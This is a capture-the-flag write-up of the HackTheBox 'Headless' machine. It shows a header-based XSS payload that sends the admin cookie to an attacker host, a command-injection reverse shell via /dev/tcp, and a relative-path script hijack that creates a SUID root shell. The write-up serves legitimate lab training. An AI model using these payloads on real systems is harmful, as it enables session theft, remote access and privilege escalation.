# Headless — Write-Up

| Field | Detail |
|---|---|
| **Machine** | [Headless](https://app.hackthebox.com/machines/Headless) |
| **Platform** | [HackTheBox](https://app.hackthebox.com/) |
| **Operating System** | Linux (Debian) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is launched to discover active services:

```bash
nmap -p- -sCV -T5 --open -vvv -oN Headless 10.129.9.199
```



Open ports:
- **Port 22** — SSH (OpenSSH 9.2p1, Debian)
- **Port 5000** — HTTP (Werkzeug 2.2.2, Python 3.11.2)

---

## Web Enumeration

Browsing to port 5000 shows an "Under Construction" page with a 24-day countdown timer:



The "For questions" button redirects to the `/support` endpoint, which displays a contact form with fields for first name, last name, email, phone number, and message:



### Directory Fuzzing

Using the admin cookie obtained later, **ffuf** is run to discover additional paths:

```bash
ffuf -u http://10.129.9.199:5000/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -t 100 \
  -b "is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"
```



Two endpoints are confirmed: `/support` and `/dashboard`. The `/dashboard` panel returns 401 Unauthorized without the correct cookie:



---

## Exploitation — XSS with Cookie Theft

### XSS Discovery

A basic JavaScript injection is tested in the `Message` field of the `/support` form:

```
<script>alert(1)</script>
```



The application detects the attempt and returns a "Hacking Attempt Detected" page that reflects all request headers unsanitized, including cookie values:



This reveals that an automated process (bot/headless browser) reviews flagged requests and renders their content. If JavaScript is injected into HTTP headers, it will execute in the administrator's context.

### Request Capture with Burp Suite

The POST request to the form is intercepted with **Burp Suite**:



### Header Injection Test

Before sending the real payload, a custom `HTB` header is added with a test value to confirm it is also reflected in the response:



The XSS payload is then added to the `HTB` header:

```
HTB: <script>var i=new Image();i.src="http://10.10.14.137/?c="+document.cookie;</script>
```



To visually confirm that JavaScript executes, the response is opened directly in the browser from Burp's context menu:



The browser fires the `alert(1)` test payload, confirming JavaScript execution:



### HTTP Server and Cookie Theft

A Python HTTP server is started on the attacker machine to receive the bot's request with the cookie:

```bash
python3 -m http.server 80
```

The request is sent with the cookie-stealing payload from Burp Repeater. The server receives the admin bot's request containing the cookie:

```
GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1
```



---

## Initial Access — Command Injection on /dashboard

### Accessing the Admin Panel

With the stolen cookie the `/dashboard` panel is accessed successfully. The cookie can be seen in the browser's DevTools:



The panel provides a form to generate system health reports using a date selector:



### Command Injection

The POST request is intercepted with Burp Suite. The `date` parameter is unsanitized and allows chaining commands with `;`. Sending `date=;ls` returns the application files in the response:

```
app.py  dashboard.html  hackattempt.html  hacking_reports  index.html  inspect_reports.py  report.sh  support.html
```



### Reverse Shell

A Netcat listener is set up:

```bash
nc -lvnp 90
```

A reverse shell is injected through the `date` parameter:

```
date=;bash -c 'bash -i >%26 /dev/tcp/10.10.14.137/90 0>%261'
```



Access is obtained as user **dvir**.

### User Flag

```bash
ls ~/app
cd ~
ls
cat user.txt
```



---

## Privilege Escalation

### Syscheck Script Analysis

The contents of `/usr/bin/syscheck` are examined:

```bash
cat /usr/bin/syscheck
```



The script checks whether `initdb.sh` is running and, if not, executes it by calling `./initdb.sh` — without an absolute path. This means it looks for the file in the **current working directory**, enabling hijacking.

### Sudo Permissions Enumeration

Sudo privileges for `dvir` are checked:

```bash
sudo -l
```



```
(ALL) NOPASSWD: /usr/bin/syscheck
```

The user can run **syscheck** as root without a password.

### Searching for an Existing initdb.sh

The system is searched for any pre-existing `initdb.sh`:

```bash
find / -name "initdb.sh" 2>/dev/null
```



None is found, confirming that a malicious one can be created freely.

### Exploitation — initdb.sh Hijacking

A malicious `initdb.sh` is created in `/tmp` that copies bash with the SUID bit set, and `syscheck` is executed from that directory:

```bash
cd /tmp
echo 'cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash' > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
```



The SUID bit on `/tmp/rootbash` is confirmed and it is executed with `-p` to preserve root privileges:

```bash
ls -l /tmp/rootbash
/tmp/rootbash -p
id
# uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
whoami
# root
```



### Root Flag

```bash
cd /root
ls
cat root.txt
```



---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Web enumeration | Directory fuzzing | `ffuf` |
| Exploitation | XSS via HTTP header | Burp Suite |
| Session theft | Cookie hijacking | `python3 -m http.server` |
| Initial access | Command Injection on `date` parameter | Burp Suite / `nc` |
| Privilege escalation | `initdb.sh` hijacking via sudo without absolute path | `bash` |
